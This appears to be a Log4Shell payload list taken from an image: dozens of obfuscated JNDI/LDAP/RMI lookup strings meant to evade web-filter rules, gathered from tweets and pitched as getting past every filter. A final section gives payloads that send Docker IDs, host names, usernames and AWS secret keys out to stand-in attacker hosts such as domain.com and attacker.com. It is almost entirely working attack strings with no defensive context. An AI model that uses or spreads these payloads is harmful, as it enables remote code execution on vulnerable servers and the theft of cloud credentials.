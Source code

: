 ```
${j${EnV:K5:-nD}i:ldap://domain.com/j}
${j${loWer:Nd}i${uPper::}ldap://domain.com/j}
${jndi:ldap://127.0.0.1#domain.com/j}
${jnd${upper:ı}:ldap://domain.com/j}
${jnd${sys:SYS_NAME:-i}:ldap:/domain.com/j}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://domain.com/j}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://domain.com/j}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://domain.com/j}
${\u006a\u006e\u0064\u0069:ldap://domain.com/j}
${jn${lower:d}i:l${lower:d}ap://${lower:x}${lower:f}.domain.com/j}
${j${k8s:k5:-ND}${sd:k5:-${123%25ff:-${123%25ff:-${upper:ı}:}}}ldap://domain.com/j}
%24%7Bjndi:ldap://domain.com/j%7D
%24%7Bjn$%7Benv::-%7Ddi:ldap://domain.com/j%7D
 
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a} (https://twitter.com/BountyOverflow/status/1470001858873802754) 
1. ${jndi:ldap://127.0.0.1:1389/ badClassName}
2. ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
3. ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
4. ${jndi:rmi://adsasd.asdasd.asdasd}  - https://twitter.com/wugeej/status/1469982901412728832
 
jndi:
jn${env::-}di:
jn${date:}di${date:':'}
j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::} https://twitter.com/ymzkei5/status/1469765165348704256
```

If you re filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you: (https://twitter.com/Rezn0k/status/1469523006015750146) 
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
This gets past every filter I've found so far. There's no shortage of these bypasses.
 
# Different Types of Exploit Confirmation Payloads
# Docker Lookup
${jndi:ldap://${docker:containerId}.domain.com/j}
${jndi:ldap://${docker:containerName}.domain.com/j}
${jndi:ldap://${docker:imageId}.domain.com/j}
${jndi:ldap://${docker:imageName}.domain.com/j}
${jndi:ldap://${docker:shortContainerId}.domain.com/j}
${jndi:ldap://${docker:shortImageId}.domain.com/j}
 
# Environment Lookup
${jndi:ldap://${env:USER}.domain.com/j}
${jndi:ldap://${env:user}.domain.com/j}
${jndi:ldap://${env:COMPUTERNAME}.domain.com/j}
${jndi:ldap://${env:USERDOMAIN}.domain.com/j}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.domain.com/j}
${jndi:ldap://${hostName}.domain.com/j}
${jndi:ldap://${env:JAVA_VERSION}.domain.com/j}
 